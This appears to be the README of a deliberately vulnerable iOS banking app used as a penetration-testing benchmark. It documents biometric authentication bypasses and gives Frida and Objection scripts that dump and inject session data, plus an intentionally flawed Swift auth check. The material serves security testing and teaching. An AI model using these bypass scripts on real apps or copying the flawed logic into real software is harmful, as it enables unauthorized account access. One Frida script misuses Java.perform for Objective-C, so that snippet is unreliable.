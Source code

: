 # oxo-ios-ben17 SecureBank: iOS Biometric Authentication Bypass

## Vulnerability Overview

### Description
This iOS application, SecureBank, is a penetration testing benchmark designed to demonstrate critical vulnerabilities in biometric authentication. The app intentionally implements flawed security controls, allowing attackers to bypass biometric checks through several vectors, including insecure data storage, logic flaws, and weak template management. These vulnerabilities enable unauthorized access to sensitive banking information without valid biometric credentials.

### Vulnerability Type and Category
**Primary Type:** Bypass of Biometric Authentication

**Categories:**
- Improper Authentication (CWE-287)
- Cleartext Storage of Sensitive Information (CWE-312)
- Insecure Storage of Sensitive Information in a Mobile Application (CWE-922)

**Difficulty:** Medium

## Technical Details & Attack Vectors
The application contains multiple, distinct vulnerabilities that can be chained or exploited independently.

### 1. Insecure Authentication Session Storage 🚨
**Location:** ContentView.swift, specifically the storeBiometricTemplate() method.

**Description:** The application stores critical authentication session data, including tokens and device trust flags, as plain text in UserDefaults. This data can be easily read and manipulated by runtime tools, allowing an attacker to replay sessions or falsely establish device trust.

**Vulnerable Data Keys in UserDefaults:**
- `biometric_session_token` // Plain text session identifier for replay attacks
- `biometric_auth_hash` // Replayable authentication hash
- `is_trusted_biometric_device` // Boolean flag to bypass future checks
- `last_successful_auth_time` // Timestamp that can be manipulated
- `authenticated_device_id` // Insecure "trusted device" identifier

### 2. Authentication Logic Bypass 🚨
**Location:** ContentView.swift, within the handleAuthenticationResult() method.

**Description:** A critical logic flaw exists in the authentication result handler. The code uses a logical OR (||) instead of an AND (&&) to check the authentication status. This allows an attacker to gain access when success=false but error=nil (a state achievable by canceling the biometric prompt or having no biometrics enrolled).

**Vulnerable Code:**
```swift
// VULNERABLE: Condition is true when success=false and error=nil
if success || error == nil {
    self.isLoggedIn = true // Access granted!
}
```

### 3. Weak Biometric Template Generation & Injection 🚨
**Location:** BiometricTemplateManager.swift.

**Description:** The application generates predictable biometric "templates" using simple string concatenation instead of secure cryptographic methods. Furthermore, there is no validation, allowing an attacker to inject a malicious or known template to bypass authentication.

## Exploitation Guide

### Phase 1: Reconnaissance (Static Analysis)
Identify vulnerable code patterns and storage locations using simple grep commands.

```bash
# Find biometric logic and LocalAuthentication usage
grep -r "biometric" .
grep -r "LocalAuthentication" .

# Look for insecure storage in UserDefaults
grep -r "UserDefaults.standard" .
grep -r "biometric_session_token" .

# Identify the logic flaw
grep -r "success || error == nil" .
```

### Phase 2: Dynamic Analysis (No Jailbreak Required)
Use runtime tools like Frida or Objection to inspect the application's memory and storage.

**Step 2.1: Dump UserDefaults**
Access UserDefaults to find the insecurely stored session data.

```bash
# Using Objection on a non-jailbroken device
objection -g "SecureBank" explore
ios nsuserdefaults get

# Using Frida on a non-jailbroken device
frida -U -f co.ostorlab.bank -l dump_userdefaults.js
```

**Step 2.2: Extract Session Data with Frida**
This script targets and extracts the specific biometric session keys.

```javascript
// Frida script to extract session data
Java.perform(function() {
    const userDefaults = ObjC.classes.NSUserDefaults.standardUserDefaults();
    const sessionKeys = [
        "biometric_session_token", "biometric_auth_hash",
        "is_trusted_biometric_device", "last_successful_auth_time"
    ];

    console.log("--- Dumping Biometric Session Data ---");
    sessionKeys.forEach(key => {
        const value = userDefaults.objectForKey_(key);
        console.log(`[+] ${key}: ${value}`);
    });
});
```

### Phase 3: Exploitation

**Exploit 1: Authentication Logic Bypass**
1. Ensure no biometric data (Face ID/Touch ID) is enrolled on the device/simulator.
2. Launch the SecureBank app and trigger the biometric authentication prompt.
3. Cancel the prompt.
4. **Result:** The application grants access because the `error == nil` condition is met, successfully bypassing authentication.

**Exploit 2: Session Data Injection & Device Trust Bypass**
Manipulate the insecurely stored data to gain persistent access.

1. Authenticate successfully once to populate UserDefaults with valid session data.
2. Use Frida to overwrite the stored values with malicious data.

```javascript
// Frida script to inject bypass data
var userDefaults = ObjC.classes.NSUserDefaults.standardUserDefaults();

// Set device as trusted to bypass future checks
userDefaults.setBool_forKey_(true, "is_trusted_biometric_device");
userDefaults.setObject_forKey_("attacker_device_id", "authenticated_device_id");

// Inject a predictable hash for future replay
userDefaults.setObject_forKey_("deadbeef", "biometric_auth_hash");

userDefaults.synchronize();
console.log("🚨 Bypass data injected! Relaunch the app.");
```

3. **Result:** Upon relaunch, the app considers the device "trusted" and may grant access without a biometric prompt.

## Detection Indicators

**Static Indicators:** The presence of UserDefaults being used to store any data named `token`, `session`, `hash`, or `trusted`. Logical conditions like `if success || error == nil` in authentication callbacks.

**Dynamic Indicators:** Plain-text authentication data visible in UserDefaults dumps. Successful authentication after canceling the biometric prompt.

**Runtime Indicators:** Console logs revealing template storage locations or session information.

